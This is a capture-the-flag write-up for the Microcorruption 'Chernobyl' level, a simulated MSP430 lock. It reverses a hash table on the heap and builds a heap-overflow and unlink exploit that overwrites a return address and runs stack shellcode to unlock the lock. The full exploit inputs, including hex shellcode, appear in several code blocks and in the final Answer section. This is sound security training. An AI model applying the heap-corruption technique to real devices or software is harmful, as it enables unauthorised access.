







# Chernobyl
## TLDR
A hash table on the heap stores user names and pin numbers.  
When the hash table is full (initial max size is 11 entries) it will double in size.  
The program is vulnerable to heap buffer overflow in the hash table.  
A heap unlink exploit is used to overwrite the main function return address during a call to free.  
Shellcode instructions that will call INT on interrupt 0x7f will be executed from the stack.  

## Details
The LockIT Pro d.02  is the first of a new series  of locks. It is
controlled by a  MSP430 microcontroller, and is  the most advanced
MCU-controlled lock available on the  market. The MSP430 is a very
low-power device which allows the LockIT  Pro to run in almost any
environment.

The  LockIT  Pro   contains  a  Bluetooth  chip   allowing  it  to
communiciate with the  LockIT Pro App, allowing the  LockIT Pro to
be inaccessable from the exterior of the building.

LockIT Pro Account Manager solves the problem of sharing passwords
when  multiple users  must  have  access to  a  lock. The  Account
Manager contains  a mapping of users  to PINs, each of  which is 4
digits.  The  system supports  hundreds of users,  each configured
with his or her own PIN,  without degrading the performance of the
manager.

There are no accounts set up  on the LockIT Pro Account Manager by
default. An administrator must first initialize the lock with user
accounts  and  their  PINs.  User  accounts  are  by  default  not
authorized  for access,  but can  be authorized  by attaching  the
Account  Manager  Authorizer.  This  prevents  users  from  adding
themselves to the lock during its use.
    
This is Hardware  Version D.  It contains  the Bluetooth connector
built in, and one available port, to which the LockIT Pro Deadbolt
should be connected. When authorizing PINs, the Deadbolt should be
disconnected and the Authorizer should be attached in its place.

This   is  Software   Revision   02.  It   contains  the   all-new
vault-manager software.

## Program Structure
It is important to understand how this program functions in order to exploit it.

The program uses a hash table to store users and pin numbers. See the link below for an introduction to hash tables.

https://www.hackerearth.com/practice/data-structures/hash-tables/basics-of-hash-tables/tutorial/

The hash table starts at the start of the heap at address 0x5000. It starts out with 8 indexes and each index can store up to 5 entries. Address 0x5006 contains the number of entries. Address 0x5008 contains the number of indexes (2^N). Address 0x500c points to the list of starting addresses of each index. Address 0x500e points to the list of entries in each index. The table will hold 11 entries but once the 12th entry is added, the table expands. This means the number of indexes doubles to 16, The number of entries before expanding will double to 22, all the existing entries are rehashed and added to the new set of indexes, and the previous indexes are freed.

When a new entry is added to an index, the entry point will start at the first unused address in the index. The first 15 bytes of the username will be stored first followed by a null character and then the pin converted to hex. The total size of 1 entry is 18 bytes. The username cannot contain a null byte or space (0x20).

The hash value is calculated using each index of the username. The hash function is pretty easy to predict as the rightmost character has the most influence on the hash, and the hash is modded by the number of indexes. For example, usernames "AAAAA" and "AAAAI" will be put in the same index because `hex("A") % hash table size` is equal to `hex("I") % hash table size`. In short, we only need to adjust the right character by at most 8 (until the hash table resizes) to find the right index.

Looking at the user input handler, only the first character is checked. One option is "a" with size 6 which we know correlates to "access". The other option is "n" with size 3. I assume this means "new" which is a pretty good guess since this option adds an entry to the hash table. When the access command finds a correct user name and pin, we get the response "Access granted; but account not activated."

There is a walk function that doesn't appear to be called. I didn't bother finding out what it does. The get_from_table function works as expected and in depth knowledge is not needed to exploit this program.

Before we move on, make sure everything above makes sense. If anything isn't clear, take the time to fully reverse this program and understand what each function does. Complete knowledge is necessary to craft a working exploit.

## Solution
Now that we know how the program works, we can move onto exploitation. From the explanation above it is clear a heap overflow exists in the hash table. Each index can only store 5 entries but we can add 11 entries before the hash table expands. The heap buffers are contiguous so an overflow of one buffer will overwrite the previous pointer, next pointer, and size of the next heap buffer. See [Addis Ababa](https://github.com/networking101/microcorruption/tree/main/Addis%20Ababa) for an explaination on how the heap is managed.

So we need 6 entries in the same hash table index to overwrite the next allocated buffers pointers and size. It turns out that the same username and pin can be sent if the username is at least 16 characters long. Lets start by overwritting a heap buffer's metadata. Send `new AAAAAAAAAAAAAAAA 0` 6 times.




It works! All usernames hashed to the same value so they were all placed into the same hash table index. The metadata at 0x509c - 0x50a1 was overwritten with As. Now we need to figure out how to trigger the unlink.

It looks like free is only called when rehash is called and the hash table expands. This means we will need to add 6 more entries to the hash table. We don't want to accidently overwrite more pointers and break execution somewhere later so we will pick 6 usernames that will be placed in different indexes.

```
new B 0
new C 0
new D 0
new E 0
new F 0
new G 0
```

Now rehash should be recalled and we can get to the call to free.



Uh oh. We caused the program to abort. It seemed to thing the heap was exhausted. This should only happen when trying to allocate a new block of memory. Let's backtrace and see where the error happened.

The error happended on the first call to malloc in rehash (address 0x490a). It looks like the malloc function will move along the linked list of blocks on the heap to check for unallocated regions large enough to allocate the needed size. If any of the next pointers point to a lower address, the program throws an error. Fortunately the malloc function doesn't check backwards using the previous nodes of the linked list. This is easy to fix. We just need to maintain the integrity of the forward linked list chain. It looks like the value was 0x50fc before we overwrote it. Lets add it to our exploit. The exploit now looks like this:

```
new AAAAAAAAAAAAAAAA 0
new AAAAAAAAAAAAAAAA 0
new AAAAAAAAAAAAAAAA 0
new AAAAAAAAAAAAAAAA 0
new AAAAAAAAAAAAAAAA 0
(hex) 6e657720 4141 fc50 414141414141414141414141 2030
new B 0
new C 0
new D 0
new E 0
new F 0
new G 0
```



Now we have another problem.  Our entry moved out of the first index and we aren't overflowing the heap anymore. We need to make sure the calculated hash of the username % 8 equals 0.

Like I mentioned above, we only have 8 indexes in our hash table and the last character of the username has the most influence on the hash value. Instead of calculating the hash ourselves, we can just guess and check with up to 8 values. We also don't need 16 bytes in the username field. We only care about overwriting the previous pointer, next pointer, and size (6 bytes). Let's use the 7th byte to control which index the entry will fall into. Start with 0x41 and increase until we land in the index we care about.

```
6e657720 4141 fc50 4141 41 2030
6e657720 4141 fc50 4141 42 2030
6e657720 4141 fc50 4141 43 2030
6e657720 4141 fc50 4141 44 2030        This is the entry we want
```



We found it. Now lets attempt to overflow the heap and get to the free call.

```
new AAAAAAAAAAAAAAAA 0
new AAAAAAAAAAAAAAAA 0
new AAAAAAAAAAAAAAAA 0
new AAAAAAAAAAAAAAAA 0
new AAAAAAAAAAAAAAAA 0
(hex) 6e657720 4141 fc50 4141 44 2030
new B 0
new C 0
new D 0
new E 0
new F 0
new G 0
```



Success. We got to the free call at address 0x499e.

Now we need to figure out what we are going to overwrite with our unlink exploit. The exploit will overwrite 2 bytes, but clobber the 4 bytes before. The most likely candidate is overwriting a return address to jump to instructions that will unlock the door. There are no unlock_door functions like in previous programs. We could use a jump to a call to INT such as in the getsn or puts functions, but we would need to set 4 bytes on the stack and we can only write 2 reliably. The best option is to jump to shellcode that we provide with our user input. However, this creates another problem. The add_to_table function will not copy null or 0x20 bytes to the heap.

Take a look at the end of the run function.



If the user command is not "access" or "new", the function will jump to address 0x4cbe and return from the run function. The return address is stored at address 0x43f6 on the stack. This is what we want to overwrite. To get here we just need to provide a user input where the first character is not "a" or "n". Then we can include our shellcode, and use the overwritten return address to return to the unlock door instructions on the stack. Use the shellcode from [Bangalore](https://github.com/networking101/microcorruption/tree/main/Bangalore).


With this new step added, our exploit will look like this.

```
new AAAAAAAAAAAAAAAA 0
new AAAAAAAAAAAAAAAA 0
new AAAAAAAAAAAAAAAA 0
new AAAAAAAAAAAAAAAA 0
new AAAAAAAAAAAAAAAA 0
(hex) 6e657720 4141 fc50 4141 44 2030
new B 0
new C 0
new D 0
new E 0
new F 0
new G 0
(hex) 42424242 324000ffb0121000
```


* available commands are "access" and "new". Anything else will cause run function to return and exit program
* The hash table is stored on the heap
* each block can only hold 5 entries but 10 can be added before the table is expanded
* nulls and spaces (0x20) will be filtered from user input before being moved to heap
* malloc calls in rehash function need to still work. This means forward direction (next node) in linked list must be intact
* free calls will use the previous node to combine free regions of memory. Use this to overwrite return address back to main using buffer sizes
* overwrite return address with stack address when input read from user.
* on next user input after rehash function, store shellcode on stack that will call interrupt 0x7f
* pass in a bad character (not "a" or "n") to return from run function

Meta data for each hash table starts at address  

Address for each table: 0x5016 - 0x5025  
Size for each table: 0x502e - 503d  

8 Entries in the table, each 0x5a (90) bytes long  
Start of each hash table:
* 0x5042
* 0x50a2
* 0x5102
* 0x5162
* 0x51c2
* 0x5222
* 0x5282
* 0x52e2

Check first byte of user input
* 0x61  -  access [your name] [pin]
* 0x6e  -  new [your name] [pin]


## Answer
Input: (ascii) new AAAAAAAAAAAAAAAA 0  
Input: (ascii) new AAAAAAAAAAAAAAAA 0  
Input: (ascii) new AAAAAAAAAAAAAAAA 0  
Input: (ascii) new AAAAAAAAAAAAAAAA 0  
Input: (ascii) new AAAAAAAAAAAAAAAA 0  
Input: (hex) 6e657720 f243 fc50 51f5 31 2030  
Input: (ascii) new B 0  
Input: (ascii) new C 0  
Input: (ascii) new D 0  
Input: (ascii) new E 0  
Input: (ascii) new F 0  
Input: (ascii) new G 0  
Input: (hex) 42424242 324000ffb0121000  
